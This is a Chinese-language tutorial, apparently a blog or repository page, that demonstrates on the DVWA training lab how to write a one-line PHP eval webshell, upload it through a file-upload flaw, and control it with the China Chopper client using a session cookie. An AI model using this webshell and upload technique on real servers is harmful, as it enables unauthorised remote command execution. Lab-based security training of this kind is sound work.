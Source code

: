 
# 一、菜刀
本文以dvwa靶场做示范。  

## 0.目标  
菜刀请自行百度或GitHub搜索获取。  
学完本文仅需掌握：  
1. 使用菜刀连接需要身份认证的木马;  
2. 理解Cookie的作用；  

## 1.菜刀使用方法

##### a. 进入文件上传靶场，并将难度设置为low：  

账户信息：admin/password  
![Alt](picture/0_1.jpg)  

##### b. 百度“一句话木马”：  

![Alt](picture/0_2.jpg)  
并找到可执行木马的源码，对于dvwa靶场则为PHP木马：  
![Alt](picture/0_3.jpg)  
复制代码，并制作木马文件：  

> 一句话木马  
> <?php @eval($_post['attack']);?>  

执行指令[^1]  

> echo '<?php @eval($_post["attack"]);?>' > tmp.php  

![Alt](picture/0_4.jpg)  

##### c. 进入文件上传界面，上传制作好的木马：  

点击选择文件  
![Alt](picture/0_5.jpg)  
选中制作的木马文件tmp.php  
![Alt](picture/0_6.jpg)  
点击upload上传  
![Alt](picture/0_7.jpg)  
返回结果如下  
![Alt](picture/0_8.jpg)  
证明文件上传成功  
尝试访问上传成功的文件  
http://192.168.56.101/dvwa/hackable/uploads/tmp.php[^2]  
![Alt](picture/0_9.jpg)  
确定未返回404，说明文件可访问。  

##### d. 使用菜刀访问上传木马：

d1. 打开菜刀工具  
![Alt](picture/0_10.jpg)  
d2.添加远程连接任务  
右键添加任务  
![Alt](picture/0_11.jpg)  
地址填入木马地址，密码为attack[^3]
![Alt](picture/0_12.jpg)  
点击编辑确定，可以看见主界面如下
![Alt](picture/0_13.jpg)  
d3. 任务添加cookie  
在浏览器中按F12，进入调试界面，并进入Network  
![Alt](picture/0_14.jpg)  
刷新页面，在请求报文头中获取cookie值
![Alt](picture/0_15.jpg)  
当前cookie值为：

> Cookie: security=low; PHPSESSID=31ei3lo48uu5v6i2u85ru1t3v0  

回到菜刀中，选中任务右键，然后选择设置  
![Alt](picture/0_16.jpg)  
进入设置界面后，点击请求头，并将刚获取的cookie值写入  
![Alt](picture/0_17.jpg)  
点击确定，出现如下提示，则设置成功，然后退出设置窗口
![Alt](picture/0_18.jpg)  

##### e. 连接木马

双击任务即可，返回如下则证明远程连接成功  
![Alt](picture/0_19.jpg)  
也可以在列表中选中任务右键，并选择“模拟终端”  
![Alt](picture/0_20.jpg)  
在模拟终端中可以尝试执行系统命令，验证远控成功
![Alt](picture/0_21.jpg)  



## 2.Cookie的作用

在上一节中，菜刀能连接到木马的关键操作是添加cookie。在系统做了良好权限控制的场景中，如果没有添加身份认证信息，就不能访问到远程连接文件，其中cookie就是用户身份认证的一种方式。  
如果上传了木马后，直接用工具连接出现了连接失败的情况，则需要考虑添加请求头信息，其中最为关键的是：cookie、session、token，根据不同的情况，也可能需要添加其他的请求头信息。  
更多关于cookie、session、token的知识，请自行百度[^4]。

-------------
推广：
欢迎加入QQ技术讨论群：736342355


[^1]: 直接创建一个PHP文件，并将代码写入PHP文件中保存即可  

[^2]: 上图返回结果中的 `..\` 表示返回上级目录，所以木马文件则删除最低两级目录，然后拼接hackable/uploads/tmp.php  

[^3]: 上传木马中设置的POST参数为attack，所以此处添加密码为attack，具体原因后期博文会具体讲解  

[^4]: 参考博文:<https://www.cnblogs.com/moyand/p/9047978.html>